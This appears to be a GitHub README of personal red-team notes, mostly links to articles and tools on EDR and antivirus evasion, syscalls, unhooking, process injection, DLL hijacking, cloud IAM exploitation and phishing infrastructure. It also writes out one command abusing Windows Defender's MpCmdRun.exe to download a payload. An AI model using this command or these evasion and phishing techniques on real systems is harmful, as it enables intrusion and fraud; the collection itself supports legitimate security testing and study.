 # RedBlueNotes

![red](https://user-images.githubusercontent.com/9626439/99510946-ef79e900-2987-11eb-9aa8-1443670a8bb3.jpg)

Personal notes and collection of useful links. 

Collection in early stage - more details will be added (URL/Description).

## Approach
* [assume breach?](https://twitter.com/reybango/status/1308608385298898944)

## Lab
* [designing-the-adversary-simulation-lab/](https://www.mdsec.co.uk/2020/04/designing-the-adversary-simulation-lab/)

## .NET ETW 
* https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/ (bypass by _xpn_)
* https://github.com/zacbrown/PowerKrabsEtw
* https://github.com/zacbrown/hiddentreasure-etw-demo

## Windows syscalls
* https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
* https://github.com/jthuraisamy/SysWhispers
* https://jhalon.github.io/utilizing-syscalls-in-csharp-1/
* https://jhalon.github.io/utilizing-syscalls-in-csharp-2/
* https://www.solomonsklash.io/syscalls-for-shellcode-injection.html
* https://github.com/frkngksl/Celeborn
* https://github.com/m0rv4i/Syscalls-Extractor
* https://github.com/nick-frischkorn/SysWhispers-FunctionRandomizer

## (API) (un)hook
* [Defeat Bitdefender total security using windows API unhooking to perform process injection](https://shells.systems/defeat-bitdefender-total-security-using-windows-api-unhooking-to-perform-process-injection/)
* [Part 1: Fs Minifilter Hooking](https://aviadshamriz.medium.com/part-1-fs-minifilter-hooking-7e743b042a9d)
* [Windows API Hooking](https://rcvalle.com/blog/2020/09/16/rust-lang-exploit-mitigations/)

## EDR telemetry
* [TelemetrySourcerer](https://github.com/jthuraisamy/TelemetrySourcerer)

## Build offensive tools 
* [OffensivePipeline](https://github.com/Aetsu/OffensivePipeline)

## Infrastrcuture
* [Multi-Stage Offensive Operations with Mythic](https://blog.kyleavery.com/posts/multi-stage-mythic/)

## Evasion
* [Blue team - EDR evolution](https://www.optiv.com/insights/source-zero/blog/endpoint-detection-and-response-how-hackers-have-evolved)
* [Nice webinar - understanding-modern-edr-tools](https://www.netspi.com/webinars/understanding-modern-edr-tools-thank-you/)
* [Lets Create An EDR… And Bypass It! Part 1](https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/)
* [Lets Create An EDR… And Bypass It! Part 2](https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/)
* [A Guide to Reversing and Evading EDRs: Part 1 Introduction](http://jackson-t.ca/edr-reversing-evading-01.html)
* [A Guide to Reversing and Evading EDRs: Part 2 Sensor reconnaisssance](http://jackson-t.ca/edr-reversing-evading-02.html)
* [A Guide to Reversing and Evading EDRs: Part 3 Diverting EDR telemetry to private infrastracture](http://jackson-t.ca/edr-reversing-evading-03.html)
* [Alaris](https://github.com/cribdragg3r/Alaris)
* [ScareCrow](https://github.com/optiv/ScareCrow)
* [Self deleting exe](https://www.catch22.net/tuts/win32/self-deleting-executables#)
* [Defeating Antivirus Real-time Protection From The Inside](https://breakdev.org/defeating-antivirus-real-time-protection-from-the-inside/)
* [Duping AV with handles](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* [Adventures in Dynamic Evasion](https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa)
  * [Companion PoC for the "Adventures in Dynamic Evasion" blog post](https://github.com/matterpreter/SHAPESHIFTER) 
* [Click your shortcut and… you got pwned.](https://redteamer.tips/click-your-shortcut-and-you-got-pwned/) 
* [Evade EDR with Shellcode Injection and gain persistence using Registry Run Keys](https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a)
* [Understanding and bypassing AMSI](https://x64sec.sh/understanding-and-bypassing-amsi/)
* [Masking Malicious Memory Artifacts – Part III: Bypassing Defensive Scanners](https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-iii-bypassing-defensive-scanners)
* [smaller-c-payloads-on-windows](https://www.solomonsklash.io/smaller-c-payloads-on-windows.html)
* [in-memory-shellcode-decoding-to-evade-avs](https://shells.systems/in-memory-shellcode-decoding-to-evade-avs/)
* [MDSec Bypassing Image Load Kernel Callbacks](https://www.mdsec.co.uk/2021/06/bypassing-image-load-kernel-callbacks/)
* [EDR bypass via signed driver EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast)
* [Bypass user-mode hooks](https://github.com/hlldz/RefleXXion)
* [Cool gitbook full of great tips not only for RedTeaming but pentesting in general](https://ppn.snovvcrash.rocks/)

## Cloud
* [XPN - Azure AD Connect for Red Teamers](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Making Clouds Rain :: Remote Code Execution in Microsoft Office 365](https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html)
* [List of Azure CDN IP Addresses](https://github.com/Gelob/azure-cdn-ips)
* [AWS IAM explained for Red and Blue teams](https://infosecwriteups.com/aws-iam-explained-for-red-and-blue-teams-2dda8b20fbf7)
* [Exploiting AWS IAM permissions for total cloud compromise: a real world example (part 1/2)](https://infosecwriteups.com/exploiting-fine-grained-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-5a2f3de4be08)
* [Exploiting fine-grained AWS IAM permissions for total cloud compromise: a real world example (part 2/2)](https://infosecwriteups.com/exploiting-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-2-2-f27e4b57454e)

## Lateral movement
* [lateral-movement-using-dcom-objects](https://www.scorpiones.io/articles/lateral-movement-using-dcom-objects)

# DLLs
* https://itm4n.github.io/windows-dll-hijacking-clarified/
* https://github.com/monoxgas/Koppeling (DLL hijacking)
* https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/ (DLL proxy loading)
* [Full DLL Unhooking with C++](https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++)

## Injections
* https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/
* https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/

## Situational Awareness
* https://ired.team/offensive-security/enumeration-and-discovery/windows-event-ids-for-situational-awareness

## Phishing
* [Post exploitation creds](https://medium.com/@shantanukhande/post-exploitation-creds-5a8de8676792)
* [Adversary phishing characteristics](https://blog.sannemaasakkers.com/adversary-phishing-characteristics.html)
* [Check the phishing server / landing page response](https://httpstatus.io/)
* [Security check of your URL ](https://sitecheck.sucuri.net/)
* [Check your phishing e-mail quality](https://www.mail-tester.com/)
* [Recipe for a successful phishing campaign (part 1/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-1-2-dc23d927ec55)
  * setup SPF, DKIM, PTR, MX and general approach
* [Recipe for a successful phishing campaign (part 2/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-2-2-68552806dcba)
  * setup DNS, gophishg, general tips for better campaign
* [Building resilient phishing campaign infrastructure](https://godlikesecurity.com/index.php/tag/red-team/)
* [email spoofing](https://github.com/chenjj/espoofer)
* [docker,terradorm,ansible automation](https://github.com/ralphte/build_a_phish)
* [Internal phishing](https://github.com/Yaxser/SharpPhish)
* [Password protected Excel phishing](https://s3cur3th1ssh1t.github.io/Phish-password-protected-Excel-files/)
* [Gophish notification](https://github.com/dunderhay/gophish-notifications)
* [Gophish notification via webhooks](https://github.com/t94j0/gophish-notifier)
* [HTML landing page obfuscation](https://github.com/BinBashBanana/html-obfuscator)
* [HTML smuggling obfuscated](https://elliotonsecurity.com/creating-fully-undetectable-javscript-payloads-to-evade-next-generation-firewalls/)

### Phishing platforms
* [sendgrid](http://sendgrid.com/)
  * useful service but honestly, You need Pro pain plan to be lucky not to be on a spamlist 
* [mailgun](https://app.mailgun.com/)
  * haven't had any problem
* [Amazon AWS SES](https://aws.amazon.com/ses/)

## Download and execute

* [Download via Defender](https://twitter.com/mohammadaskar2/status/1301263551638761477)
* [Host your payloads and serve them based on your conditions](https://github.com/t3l3machus/Synergy-httpx)
* [Host redteam payloads](https://github.com/outflanknl/RedFile)
![Defender download](https://pbs.twimg.com/media/Eg8ESSWWAAACTGo?format=jpg&name=large)
* (You can use C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path> to download your file using Windows defender itself.)
  
## Reports and management
* [Manage Red Team domain](https://posts.specterops.io/being-a-good-domain-shepherd-part-2-5e8597c3fe63)
* [Domain Shepherd](https://github.com/GhostManager/Shepherd)
* [CISA RedEye CS reporting tool](https://github.com/cisagov/RedEye)

## SSH 
* If you are always looking through your ssh conf files for a specific host entry, this simple bash function might be just what you need. 

```
function getssh() {
  awk "/$1/,/^$/" < ~/.ssh/include/*
}
```

![SSH configs](https://pbs.twimg.com/media/EgW_CXzXsAEsh0r?format=png&name=small)

## Tools
* [Weaponry](https://github.com/jeffjbowie/Weaponry)
  * A collection of offensive code used for red team engagements.                                    
* [Mr-Un1k0d3r awesome repo](https://github.com/Mr-Un1k0d3r)  
* [PowerShellArmoury](https://github.com/cfalta/PowerShellArmoury) 
* [RedTeamTools](https://github.com/lengjibo/RedTeamTools)     
* [inceptor](https://github.com/klezVirus/inceptor)   
* [mgeeky awesome repo](https://github.com/mgeeky/Penetration-Testing-Tools/tree/master/red-teaming)
* [Stealthy ACL recon AD](https://github.com/garrettfoster13/aced)                                  

## HW
* [Making the Perfect Red Team Dropbox (Part 1)](https://sensepost.com/blog/2020/making-the-perfect-red-team-dropbox-part-1/)
* [Making the Perfect Red Team Dropbox (Part 2)](https://sensepost.com/blog/2020/making-the-perfect-red-team-dropbox-part-2/)
